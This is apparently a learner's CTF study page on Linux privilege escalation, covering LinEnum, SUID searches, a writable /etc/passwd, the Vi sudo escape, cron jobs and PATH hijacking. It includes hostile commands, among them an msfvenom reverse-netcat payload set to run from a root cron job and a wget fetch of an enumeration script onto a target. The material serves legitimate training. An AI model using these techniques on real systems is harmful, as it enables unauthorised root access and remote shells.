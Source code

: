 ```yaml
---
description: Tenth section in Complete Beginner learning path.
---
```


# 10. Linux Privesc

### Introduction

There are two main privilege escalation variants: horizontal and vertical.&#x20;

Horizontal privilege escalation is where you reach over the system you are currently in by taking over different users on the same privilege level. For example, hijacking another normal user when you are logged in as a normal user. This allows you to inherit files from different users, this can be used to gain access to other users who may have files which have SUID bits on them to get super user access.

Vertical privilege escalation is where you attempt to gain higher privileges with an existing compromised account. This might mean hijacking an account with admin or root access.

### LinEnum

LinEnum can be downloaded [here](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh).&#x20;

To get LinEnum on a target machine, you can run `python3 -m http.server 8000` from the directory LinEnum is saved, and then use `wget [IP_ADDR]/LinEnum.sh` on the target. Then you need to make it executable using `chmod +x LinEnum.sh`. If this is not possible, you could also paste the raw code into Vi or Nano, then save it with the .sh extension. Again, you will need to make this executable.&#x20;

LinEnum can be run using `./LinEnum.sh`. The output this gives is broken down into a few different sections:

* Kernel : shows kernel info.
* Can we read/write sensitive files : shows world-writable files, this allows you to check for misconfigurations
* SUID files : shows SUID bit files, allows a file to run as root (if root is the owner)
* Crontab Contents : shows scheduled cron jobs

### SUID/GUID Files

Maximum privileges on linux appear as "rwx-rwx-rwx" (r: read, w: write, x: execute). This appears in terminal like:

<table><thead><tr><th width="93">Users</th><th width="100">Group</th><th width="100">Others</th></tr></thead><tbody><tr><td>rwx</td><td>rwx</td><td>rwx</td></tr><tr><td>421</td><td>421</td><td>421</td></tr></tbody></table>

The max number of bits that can be set for each group is 7 (a combination of 4+2+1 for read, write, execute). For example, permissions set using `chmod 755` would be rwxr-xr-x. When special permission is given to a user it becomes SUID or SGID. When extra bit "4" is set to user, it becomes SUID (set user ID), and when bit "2" is set to group it becomes SGID (Set group ID). When looking for these you should look out for:

* SUID : rws-rwx-rwx
* GUID : rwx-rws-rwx

To search for SUID binaries manually we can use:

```
find / -perm -u=s -type f 2>/dev/null
```

* find : initiates find command
* / : searches the whole system
* \-perm : searches for user with specific permissions
* \-us=s : any permission bits mode are set for file
* \-type f : only search for files
* \>2/dev/null : suppress errors

### Exploiting Writable /etc/passwd

The /etc/passwd file stores essential info which is required during login, the /etc/passwd is a plaintext file. It lists system accounts, giving info like user ID, group ID, home directory, shell and more.

The /etc/passwd file should have general read permission as its used by many command utilities, however, it should only be writeable for root/super user. The file contains one entry per line for each user account of the system. All fields are separated by a ":" symbol. A total of seven files like:

test:x:0:0:root:/root:/bin/bash

These fields from left to right are:

1. Username : used when user logs in, between 1 and 32 chars.
2. Password : an x character indicates an encrypted password is stored in /etc/shadow. You need to use the passwd command to compute the hash of a password typed at CLI or update the hash of a password in /etc/shadow. In this case, the password hash is stored as an "x".
3. User ID (UID) : each user is assigned a user ID, UID 0 is reserved for root and UIDs 1-99 are reserved for other predefined accounts. UIDs 100-999 are reserved for other admin/system accounts.
4. Group ID (GID) : primary group ID (stored in /etc/group).
5. User ID Info : comment field, used to add extra info like a name or number.
6. Home Directory : absolute path to the users home directory when they log in.
7. Command/shell : absolute path of a command or shell, typically this is a shell but it does not have to be.

If /etc/passwd is writable we can simply write a new line entry using this formula and make a new user, we add our own password hash of choice, and set the UID & GID to 0 for root. We can create a compliant password hash using:

```
openssl passwd -1 -salt [salt] [password]
```

### Escaping Vi

Each time you access an account in a CTF, you should use sudo -l to see which commands you can run as super user on that account. If a misconfigured binary is encountered during enumeration you can use [GTFOBins](https://gtfobins.github.io/) to find out how they can be exploited. This is a list of Unix binaries that can be exploited to bypass security restrictions.

If Vi can be ran as sudo, you can enter `:!sh` and press enter to open a shell as root.

### Exploiting Crontab

We can use `cat /etc/crontab` to see what cron jobs are running or scheduled to run. This can be exploited in situations where a file that we can write to is being automatically run as root. For example, we could write the payload acquired from:

```
msfvenom -p cmd/unix/reverse_netcat lhost=[IP] lport=[PORT] R
```

To a file being run as root, then all we would need to do is start a listener on the same port and wait for the cron job to run the file we wrote our payload to.

### Exploiting PATH Variable

The PATH variable specifies directories which hold executable programs, when the user runs any command it searches for executable files using the PATH variable. If we have an SUID binary running a basic process like "ps", we can't exploit this by giving it an argument for command injection. Instead, we can re-write the PATH variable to point to a location we choose, when the SUID calls the system to run an executable, it runs one we wrote instead.

If we create a command inside /tmp to open a bash shell when "ls" is run, it would look like:

```
echo "/bin/bash" > ls
```

We then make it executable with `chmod +x ls` and change the PATH variable to point to the directory we stored the command in using:

```
export PATH=/tmp:$PATH
```

Now, when we run "ls", it spawns a bash shell. If we had a script running "ls" as root, we could run it to become root.

